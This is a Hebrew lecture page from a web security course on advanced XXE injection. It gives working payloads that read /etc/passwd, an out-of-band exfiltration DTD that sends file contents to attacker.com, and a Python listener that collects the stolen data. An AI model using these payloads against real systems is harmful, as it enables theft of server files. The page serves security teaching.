

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.7 - הזרקת XML מתקדמת/3.7 - הזרקת XML מתקדמת - הרצאה/index.html · generator: mkdocs

# הinjection XML מתקדמת - Advanced XXE

## מבוא

בקורס הבסיסי למדנו על XXE (XML External Entity) רגיל - הגדרת entity חיצוני שמצביע לקובץ מקומי או לכתובת חיצונית. בשיעור הזה נעמיק לטכניקות מתקדמות: XXE עיוור עם extraction out-of-band, XXE דרך קבצים שונים, parameter entities, ועוד.

### תזכורת - XXE בסיסי

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

## XXE עיוור - Blind XXE

כאשר התגובה של השרת לא מציגה את תוכן ה-entity, אנחנו צריכים טכניקות extraction חלופיות.

### OOB עם DTD חיצוני - Out-of-Band Exfiltration

העיקרון: נגרום לשרת הפגיע לשלוח את הנתונים לשרת שלנו.

### שלב 1 - קובץ DTD בשרת התוקף

```xml
<!-- evil.dtd - hosted at http://attacker.com/evil.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/collect?data=%file;'>">
%eval;
%exfil;
```

### שלב 2 - ה-payload שנשלח לשרת הפגיע

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<root>
  <data>anything</data>
</root>
```

### מה קורה

1. השרת הפגיע טוען את `evil.dtd` מהתוקף
2. ה-DTD מגדיר entity שקורא `/etc/passwd`
3. ה-DTD מגדיר entity שעושה בקשה לשרת התוקף עם התוכן
4. התוקף מקבל את תוכן הקובץ בלוג של השרת שלו

![תרשים זרימה שמראה כיצד ב-XXE עיוור השרת הפגיע טוען DTD חיצוני, קורא קובץ מקומי, ושולח את תוכנו לשרת התוקף בשיטת out-of-band](../../../images/illustrations/webadv-3-7-xxe-oob-exfil.svg)

### שרת מקבל בצד התוקף

```python
from http.server import HTTPServer, SimpleHTTPRequestHandler
import urllib.parse

class Handler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path.startswith('/collect'):
            query = urllib.parse.urlparse(self.path).query
            data = urllib.parse.parse_qs(query).get('data', [''])[0]
            print(f"[+] Exfiltrated data:\n{data}")

        # also serves evil.dtd
        return super().do_GET()

HTTPServer(('0.0.0.0', 80), Handler).serve_forever()
```

### שימוש ב-Burp Collaborator

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://YOUR-COLLABORATOR-ID.oastify.com/evil.dtd">
  %xxe;
]>
<root><data>test</data></root>
```
